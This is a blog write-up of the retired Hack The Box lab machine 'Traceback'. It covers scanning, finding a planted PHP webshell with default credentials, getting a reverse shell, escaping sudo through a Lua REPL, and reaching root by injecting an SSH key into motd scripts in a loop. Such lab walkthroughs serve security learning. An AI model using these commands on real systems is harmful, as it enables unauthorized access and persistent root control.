






Hello again everyone! As mentioned in [the previous blog post](../kicking-off-the-blog/) I will be using this blog as a place to post some writeups on stuff I do. As such, I'll be starting with [Traceback](https://www.hackthebox.eu/home/machines/profile/233), an Easy Linux box on [HackTheBox](https://hackthebox.eu).
I'm starting with this box since it [has been recently retired](https://twitter.com/hackthebox_eu/status/1293994493428015104).

There are also some older machines (already retired) that I have to publish writeups for. However, since this one was fresh on my memory and I still had access to it, I decided to start by writing on it.
The access proved useful, as I did not have some screenshots that were nice to showcase here. I'll need to remind myself to take more of those 😁

**Note for those in a hurry:** Summarized version near the bottom :)

## Initial notes on my writeups

Some things I need to mention first: the writeups I'll be posting will most likely be less straightforward than the typical writeups that can be found online. My focus will be more on highlighting my though process than specifically just showing the correct path. I'm writing these posts like so in order to have a (external?) look at my own thought process while sharing it with others. Additionally, there already are lots of great posts that contain a simple path to the solution, and as such this will also be my way to bring some diversity to the table!

Some other initial notes: For any that may be wondering, I use [Zim Wiki](https://zim-wiki.org/) to take notes while doing boxes.
I enjoy having an editor that makes hierarchical notes easy (as I like this type of organization), has functionalities to link between pages and I also preferred a local app instead of something browser-based. This was the best alternative I found so far, since CherryTree (the typical suggestion in infosec) is outdated and felt clunky when I tried it, and several others did not feel as simple to use as it did. If someone has a better alternative I would also appreciate some suggestions, since despite me being happy with this program right now I also feel like there are some things that could be better.

## Initial foothold

So, without further ado (since we already had enough of that), getting to the machine itself. As mentioned, Traceback is an easy Linux machine. Let's look at the results of our `nmap` scan:

```
root@kali:~/htb/traceback# cat nmap/init.nmap
# Nmap 7.80 scan initiated Sun Jun 28 12:28:25 2020 as: nmap -v -sV -sC -oA nmap/init 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 12:28:35 2020 -- 1 IP address (1 host up) scanned in 9.69 seconds
```

As shown in the snippet above, I usually scan my targets with `nmap -v -sV -sC -oA nmap/init <ip>`. Since this is the first writeup I'm doing, I'll break it down:
* `-v` is a verbose flag, which will show us the ports that are open as they are found (so we can start investigating straight away)
* `-sV` means "enumerate all versions". `nmap` will attempt to enumerate the versions (and sometimes other info) of the services that are found by interacting with open ports that are found
* `-sC` means "run default scripts". `nmap` will run the default scripts to investigate open ports or try to extract information from the host in other ways.
- `-oA` stands for "output all formats". `nmap` will output the scan results in all of its formats to the specified location. This is useful to avoid scanning the same host several times, since exposed services are not at all likely to change in HTB challenges (at least in my experience so far. I think a box that would do that would be extremely frustrating :/ )

Both SSH and an Apache webserver are exposed on this machine. I started by ignoring SSH since (in my experience so far) it's not common for it to be useful for the initial foothold, since it requires us to already have some credentials. As such, while a more extensive `nmap` scan was running (scanning all ports instead of only default ones, etc.) - which did not provide additional information, sadly - I started poking around with the exposed webpage.

After opening up the host in a browser, we are shown the following page (the background even blinks black and white for extra cool points):



So, it seems someone has done all the work for us! Cool, then this shouldn't be too hard 😎

In the meantime, my `gobuster` scan was done, and it did not find anything at all. I was stuck here for a good while, until I decided to use my brain and start googling what I had on my screen.
Since it was the only information that was available, then it must be useful!

Bingo! Searching for "Xh4H" + "Web shells" resulted in finding [this repo](https://github.com/Xh4H/Web-Shells/). This seems to be a collection of webshells, so our hacker must have used one of them!
We could try them manually, but what's the fun in that? By using `ls -1` on the cloned repository we can create a wordlist to use with gobuster, which finds `smevk.php` as the used webshell!

```
root@kali:~/htb/traceback# git clone https://github.com/Xh4H/Web-Shells.git
Cloning into 'Web-Shells'...
remote: Enumerating objects: 68, done.
remote: Total 68 (delta 0), reused 0 (delta 0), pack-reused 68
Unpacking objects: 100% (68/68), 1.85 MiB | 1.55 MiB/s, done.
root@kali:~/htb/traceback# ls -1 Web-Shells/
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punkholic.php
punk-nopass.php
r57.php
README.md
smevk.php
wso2.8.5.php
root@kali:~/htb/traceback# ls -1 Web-Shells/ > webshells_wordlist 
root@kali:~/htb/traceback# gobuster dir -u http://10.10.10.181/ -w webshells_wordlist -l -t 32 -e -k -o gobusterwebshells.out 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.181/
[+] Threads:        32
[+] Wordlist:       webshells_wordlist
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/08/14 12:12:02 Starting gobuster
===============================================================
http://10.10.10.181/smevk.php (Status: 200) [Size: 1261]
===============================================================
2020/08/14 12:12:02 Finished
===============================================================
```

Since this is the first time I'm mentioning `gobuster` in this blog, I'll also go over some options which have recently become my default:

* `dir`: This tells `gobuster` we want to run it in "dir mode" (directory searching)
* `-u <url>`: Providing the url to enumerate
* `-w /usr/share/wordlists/your choice`: The wordlist that should be used. I usually use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`, but in this case we are using the created `webshells_wordlist`
* `-o <outfile>`: The file to output results to. Same idea as the nmap output above, to avoid having to run the tool again
* `-x <extensions>`: The file extensions to append to each element of the wordlist (not used in this case since the extensions were already part of the wordlist) - this is useful when you know what the server is using for pages (.html, .php, .asp, .aspx, etc)
* `-t 32`: Use 32 threads to go faster (still need to find the right amount, don't want to slow down the VM or the box too much, but also want to go reasonably fast)
* `-k`: Skip SSL certificate verification (haven't needed it yet, but it's fine to leave it always on)
* `-e`: Expanded mode, print full URLs. This makes it easy to just click on them from the terminal (I'm lazy)
* `-l`: Include the length of the body in the output. Might be useful, but haven't found a use for it yet. Time will tell, I guess!

This was a combination of watching [ippsec's videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and looking at [nmapAutomator](https://github.com/21y4d/nmapAutomator)'s options along with some personal tinkering as well.

We can then access `http://10.10.10.181/smevk.php` to find the following page:



Hmm, this requires a login... Let's look at the [source code](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php). Default credentials would be `admin:admin`. Trying that works, nice!



Now we can use this webshell for RCE, uploading files, lots of things. Clicking the network tab on the navigation pane gets us a page where we can request a reverse shell by several methods.
Selecting "perl" and inputting our ip and a port, and listening for a connection via `netcat` gets us our first reverse shell!



Quick notes on using `netcat` to listen for a reverse shell:
* `-l`: Listen on a port
* `-v`: Verbose mode, useful for debugging connection
* `-n`: Don't resolve hostnames
* `-p <port>`: Port to listen on

We now have a low privilege reverse shell! Foothold done! On to user...

## User

First, I am used to doing something that is very useful to do whenever we have a simple reverse shell, [upgrading to a full tty](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). The website linked has a lot of information on this, so I'll just mention that my preferred method is via python and the `stty raw -echo` trick. With this we get tab-completion, history browsing with arrow keys and everything else a tty provides, all over a netcat connection! It's a very cool technique to learn and is very useful since besides the tty being more friendly to interact with, we would otherwise be unable to run commands that require a tty, like `su` or `sudo`.

Something typical to try is `sudo -l`. Upon doing so, we find a potential privesc path:



Upon executing sudo as this user, we enter a REPL by the name of "Luvit". Google helps us discover that this is a [Lua REPL](https://luvit.io/).
Searching [Lua in GTFOBins](https://gtfobins.github.io/gtfobins/lua/) shows us a way to break out of the REPL by spawning a shell, via `os.execute("/bin/bash")`. Trying that gets us a prompt indeed, privesc complete!



We can now access `sysadmin`'s home, and there we find the user flag! (Note: Further exploration showed that the command could even be shortened to `sudo -u sysadmin /home/sysadmin/luvit -e "os.execute('/bin/bash')"`)

```
sysadmin@traceback:/var/www/html$ cd ~
sysadmin@traceback:~$ ls -la
total 4344
drwxr-x--- 5 sysadmin sysadmin    4096 Aug 14 05:09 .
drwxr-xr-x 4 root     root        4096 Aug 25  2019 ..
-rw------- 1 sysadmin sysadmin    1155 Aug 14 05:25 .bash_history
-rw-r--r-- 1 sysadmin sysadmin     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin    3771 Apr  4  2018 .bashrc
drwx------ 2 sysadmin sysadmin    4096 Aug 25  2019 .cache
drwxrwxr-x 3 sysadmin sysadmin    4096 Aug 24  2019 .local
-rw-rw-r-- 1 sysadmin sysadmin       8 Aug 14 05:09 .luvit_history
-rw-r--r-- 1 sysadmin sysadmin     807 Apr  4  2018 .profile
-rw------- 1 sysadmin sysadmin     131 Aug 14 04:31 .python_history
drwxr-xr-x 2 root     root        4096 Aug 25  2019 .ssh
-rwxrwxr-x 1 sysadmin sysadmin 4397566 Aug 24  2019 luvit
-rw------- 1 sysadmin sysadmin      33 Aug 14 01:01 user.txt
sysadmin@traceback:~$ cat user.txt
REDACTED_FLAG
```

## Root

User done! Now we'll start looking for paths to privesc to root.
Here I'll admit I struggled a bit more. The majority of the two days I spent doing this box were most likely spent on this part.

I ran both [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) and [LinEnum](https://github.com/rebootuser/LinEnum) and did not find anything that seemed too interesting.
However, after running LinPEAS again, I noticed a weird process that I inspected again with `ps aux`:

```
sysadmin@traceback:~$ ps aux | grep root
root      59863  0.0  0.0   4628   776 ?        Ss   06:45   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

However, I thought that it might be some periodic backup utility and forgot about it for a while (I promised you realism, so there we go, missing obvious leads 🙃).

I started to look at writeable files that were owned by root and even found myself looking at `/bin/sh` thinking that was the way to go and that I was so clever with my carefully crafted find command (searching for root-owned files that are editable by the current user)!
```
sysadmin@traceback:/bin$ ls -la /bin/sh
lrwxrwxrwx 1 root root 4 Aug 23  2019 /bin/sh -> dash
```

I thought I could use this and change the symlink and somehow do things! But besides that making no sense, some [googling made me give up on that idea...](https://superuser.com/questions/395035/are-world-readable-writable-executable-links-in-usr-bin-security-holes)

Finally, I went back to look at the process. Detected by `ps aux`. I even tried [pspy](https://github.com/DominicBreuker/pspy) as a way to look into processes some more, since I found it suggested somewhere.
Basically, from what I understood, the process is spawned every now and then and sleeps for 30 seconds then copies the contents of `/var/backups/.update-motd.d/` to `/etc/update-motd.d/`.

Let's look at the permissions in both directories, then!
```
sysadmin@traceback:~$ ls -la /var/backups/.update-motd.d/
total 32
drwxr-xr-x 2 root root 4096 Mar  5 02:56 .
drwxr-xr-x 3 root root 4096 Aug 25  2019 ..
-rwxr-xr-x 1 root root  981 Aug 25  2019 00-header
-rwxr-xr-x 1 root root  982 Aug 27  2019 10-help-text
-rwxr-xr-x 1 root root 4264 Aug 25  2019 50-motd-news
-rwxr-xr-x 1 root root  604 Aug 25  2019 80-esm
-rwxr-xr-x 1 root root  299 Aug 25  2019 91-release-upgrade
sysadmin@traceback:~$ ls -la /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 14 11:34 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 14 11:34 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 14 11:34 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 14 11:34 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 14 11:34 91-release-upgrade
```

We can't write to any of the backup files, which might have been what made me give up on the idea at first. However, if one is careful, we can see that the files in `/etc/` are group writeable, and owned by the `sysadmin` group!
Well, we just escalated our privileges to a user in that group, so we should be able to write this!

Looking into what these files do (did not do it at the time, so this is new to me as well) leads us to [ubuntu wiki's article on the package](https://wiki.ubuntu.com/UpdateMotd).
The TL;DR is: every 10 minutes (by default) the scripts are ran and their results are concatenated, along with a footer, to make up the motd.

At the time, I just spammed a command to replace the contents of some of the motd scripts with `cat /root/root.txt` which gets us the flag in the motd when logging in via SSH.
Now, after some trial and error I managed to make a working approach to get a root shell:

* Since the scripts are ran periodically when the motd is built, we cannot have a reverse shell there, since the processes are killed if they take too long (from what I tested)
* Backgrounding a reverse shell does not work, since the `fd`s are lost (need to further investigate this, but the errors I got from testing it separately showed that this was the case)
* As such, we can try a different approach: Writing to `$HOME/.ssh/authorized_keys`.
* By creating a keypair using `ssh-keygen` and writing the public key to the mentioned file, we can SSH in using the private key
* As such, if the motd script has that when it runs then we can ssh into the box!

However, I had some problems with this approach. I will detail them and the solution for each of them as follows:
* Problem: The periodically running script keeps replacing my changes to the `motd` scripts.
* Solution: Fight fire with fire! `while true; do echo 'echo "publickey" >> /root/.ssh/authorized_keys' >> /etc/update_motd.d/00-header; sleep 10; done`
* Problem: I don't know if/when the script triggers, so that I know when I can SSH. Spamming SSH might be an option, but it's bothersome.
* Solution: Adding a `ping -c 1 <my ip>` to the payload and monitoring its reception with `tcpdump -i tun0 icmp` lets us know that the exploit was triggered. The payload would thus look like `echo "publickey" >> /root/.ssh/authorized_keys; ping -c 1 myip`.

After letting the while loop run for a while we receive a ping, which means that we can now ssh into the machine as root!
Box done!

## TL;WH - Too Long; Wanna Hack

Since some people are always in a rush, here's the abridged version.

Foothold:
* Find port 80 open with apache server
* Google name of exploit creator + "webshell"
* `gobuster` + file names of webshells
* Access `smevk.php` with the default credentials in the repo
* Get a reverse shell via the smevk network panel (selecting Perl)

User:
* Upgrade to full tty
* `sudo -l`
* `sudo` as sysadmin with the `luvit` program
* Break out by executing bash (`os.execute('/bin/bash')`)
* Read the flag in `sysadmin`'s home!

Root:
* Check root-owned files that are writeable by the current user to find `/etc/update-motd.d/`
* Check the processes to see that it is overwritten frequently with the backups
* Create a loop (or manually spam) writing content to the motd scripts with the desired payload
* At this point you can either follow the steps above to write your SSH key into root's `authorized_keys` and be able to SSH as root or just `cat` the flag and SSH with any account to read the flag from the motd banner

## Overall thoughts

This was the second machine I did after coming back and my fifth root total (only easy Linux boxes at the time).
The box was overall pretty easy (it's marked as easy so that checks out) and had interesting challenges.

Foothold was funny but not really all that challenging. My favourite part was most likely the privesc to root, and especially the part that I did specifically for this writeup: going back and getting a root shell instead of just reading the flag. I did not even use the loop when I first went through the machine, I was doing it manually! Yikes!

## Sign-off

More writeups will follow in the near future. I most likely will be covering the retired boxes I did before coming back, since I can't post public writeups of active boxes (as per HTB rules). I'm not sure if I'll join them all in one post or split them, since I don't think my notes are too extensive (they weren't as good at the time). However, given how long this post ended up getting, I might need to split them regardless.

Additionally, I'll be posting a writeup about a CTF I participated in recently as soon as I get my notes together and some time and headspace to do so.

In the meantime I also started doing some Medium Linux HTB boxes (which were reeeeeaaally fun, highly recommend checking them out if you haven't done so already). I also started an Easy Windows box, but after getting user I'm a bit lost since I don't really know my way around the command line (and Powershell!). I'll keep on trying and hopefully there will be some writeups on that soon too.

Once again, thanks for putting up with my rambly nonsense :)<br/>
And as always: thanks for reading!
